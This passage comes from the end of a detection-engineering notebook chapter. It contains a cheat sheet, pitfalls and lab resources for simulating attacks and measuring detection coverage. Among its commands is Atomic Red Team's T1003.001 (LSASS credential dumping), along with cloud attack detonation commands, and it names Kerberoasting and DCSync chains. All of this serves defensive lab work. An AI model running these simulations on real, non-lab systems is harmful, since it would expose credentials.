- **Attack simulation** spans the spectrum: Atomic Red Team (single-technique unit tests), CALDERA (chained operations), PurpleSharp (AD), Stratus (cloud).
- **The core loop is detonate → detect → measure → restore**, and every technique lands in one of four buckets: true positive, telemetry gap, detection gap, or false positive. Distinguishing telemetry gaps from detection gaps is the highest-value output.
- **The negative test is not optional** — a rule that fires on the attack but also on benign activity is a false-positive generator.
- **Honest coverage** requires three-way agreement: data collected (DeTT&CT) + rule exists (Navigator) + rule validated in the lab. Rule counts are vanity.
- **Detection-as-code** turns it into a CI gate: no rule merges without passing offline unit tests and a live lab detonation with a clean negative test.

---

## Part 15: Cheat Sheet / Quick Reference

**Vagrant**

```bash
vagrant up <vm>                     # build+boot+provision
vagrant status                      # state of all VMs
vagrant snapshot save <vm> <name>   # snapshot (do before every detonation)
vagrant snapshot restore <vm> <name>
vagrant winrm <vm> -c "cmd"         # run cmd on Windows guest
vagrant destroy -f                  # nuke everything
```

**Isolation sanity checks**

```bash
VBoxManage showvminfo <vm> --machinereadable | grep '^nic'   # confirm hostonly / none
sudo ss -tulpn | grep inetsim                                # fake-internet listening
```

**Telemetry verification (Kibana Dev Tools)**

```
GET .ds-logs-windows.sysmon_operational-*/_search
{ "query": { "term": { "event.code": "1" } }, "size": 1 }
# Confirm the event arrives AND process.command_line is populated
```

**Atomic Red Team**

```powershell
Invoke-AtomicTest T1003.001 -ShowDetailsBrief    # read first
Invoke-AtomicTest T1003.001 -GetPrereqs          # prepare
Invoke-AtomicTest T1003.001 -TestNumbers 2       # run one
Invoke-AtomicTest T1003.001 -TestNumbers 2 -Cleanup   # ALWAYS clean up
```

**CALDERA**

```bash
python3 server.py --insecure --build   # server on :8888 (red/admin)
# agent one-liner is generated by the UI; run on victim
```

**Stratus Red Team (cloud)**

```bash
stratus list --platform aws
stratus warmup <ttp> ; stratus detonate <ttp> ; stratus cleanup <ttp>
```

**Coverage scoring**

```bash
python dettect.py ds -f data_sources.yaml --layer ds.json     # data-source coverage
python dettect.py d  -f detections.yaml   --layer det.json    # detection coverage
# Import both + validation layer into ATT&CK Navigator; green only where all agree
```

**The four validation verdicts**

```
attack ran + no telemetry        -> TELEMETRY GAP  (fix sensor)
attack ran + telemetry + no rule -> DETECTION GAP  (write rule)
attack ran + telemetry + alert   -> TRUE POSITIVE  (regression-test it)
benign activity + alert          -> FALSE POSITIVE (tune it)
```

**Key ports**

```
Elastic 9200 / Kibana 5601 / Splunk web 8000 / CALDERA 8888
INetSim 53,80,443,25,21 / WinRM 5985 / RDP 3389
```

---

## Part 16: Common Pitfalls

- **Bridged adapter left enabled on a detonation host** — the classic catastrophic mistake; your sample is now on your real LAN. Verify `nic` mode before every session.
- **Shared folder mapped to a real directory during a ransomware-simulator test** — encrypts your actual files. Disable shared folders on detonation VMs.
- **Building the lab by hand** — a lab you cannot rebuild from code is one you will destroy once and abandon. IaC or it does not exist.
- **DC with 2 GB RAM** — promotion times out and leaves a half-broken domain that fails in confusing ways. Give it 4 GB.
- **Assuming telemetry instead of verifying it** — the rule never fired because the field was empty/renamed/truncated, and you find out during an incident. Run the ingest-verification ritual for every source.
- **Skipping the negative test** — you ship a rule that fires on the attack *and* on Defender's benign LSASS access, and it burns your analysts.
- **Counting rules as coverage** — 400 rules against uncollected data sources is 400 rules that can never fire. Score with DeTT&CT + validation, not with a rule count.
- **Forgetting `-Cleanup` between atomics** — leftover artefacts contaminate the next test's ground truth and produce phantom detections.
- **Conflating telemetry gaps with detection gaps** — writing rules to fix a missing log source; the rules can never fire. Distinguish the two.
- **Never restoring snapshots** — accumulated detonation cruft makes "was this from my test or the last one?" unanswerable. Restore to baseline every cycle.
- **Cloud lab left running** — a forgotten instance + NAT gateway outlasts the training that justified it. Pair every apply with a scheduled destroy.
- **Running the lab management plane on your daily driver** — a lab compromise becomes a you compromise. Keep it isolated.

---

## Part 17: Practice Labs & Resources

Hands-on, topic-specific practice that actually trains lab-building and coverage-testing skills:

- **Build the Part 8 lab for real.** Stand up a two-host domain with Vagrant + Ansible, install `sysmon-modular`, enrol Elastic Agent, and run the full T1003.001 detonate-detect-measure-restore loop. Then extend it to five more techniques (T1059.001, T1547.001, T1558.003, T1053.005, T1021.002) and produce your first honest Navigator layer.
- **DetectionLab (community forks)** — clone, read the provisioning scripts as a free course in lab automation, and stand up the full Splunk + Sysmon + Zeek + osquery estate.
- **Security Onion 2** — deploy it as your analysis plane; import PCAP and EVTX from a detonation and practise hunting the artefacts.
- **Atomic Red Team** — work through the atomics for one full ATT&CK tactic (e.g. Credential Access) against your lab, recording a verdict per technique.
- **MITRE CALDERA** — run the built-in "Discovery" and "Hunter" adversary profiles, then build a custom Kerberoasting → DCSync chain and test whether your correlation rules catch the sequence.
- **GOAD (Game of Active Directory)** — deploy the vulnerable forest, add Sysmon + Elastic, and turn each documented attack path into a detection test.
- **Splunk Attack Range** — use its built-in attack simulation to generate labelled datasets and practise writing SPL detections against known ground truth.
- **TryHackMe — SOC L1/L2 and "Intro to Detection Engineering"; CyberDefenders blue-team labs** — for practising the *analysis* half against pre-built datasets when you cannot spare the infrastructure.
- **DeTT&CT + ATT&CK Navigator** — model your (or a hypothetical org's) data sources, overlay detection coverage, and produce the three-layer honest heatmap described in Part 10.
- **PurpleSharp + Stratus Red Team** — add AD-specific and cloud-specific detonation to your suite once the endpoint loop is solid.

Build the lab, wire the telemetry, prove it arrives, detonate a technique, watch the rule fire, run the negative test, and score coverage across all three layers — and you will have converted "we think we detect this" into "we have proven we detect this," which is the single most valuable sentence a detection engineer can say. The next chapter continues the notebook by moving from proving coverage to responding at scale.

---

*Also on [Praneeth's portfolio](https://ping-praneeth.vercel.app/notebook/blueteam-detection/07-building-a-detection-lab-and-testing-your-coverage), with comments and the latest edits.*
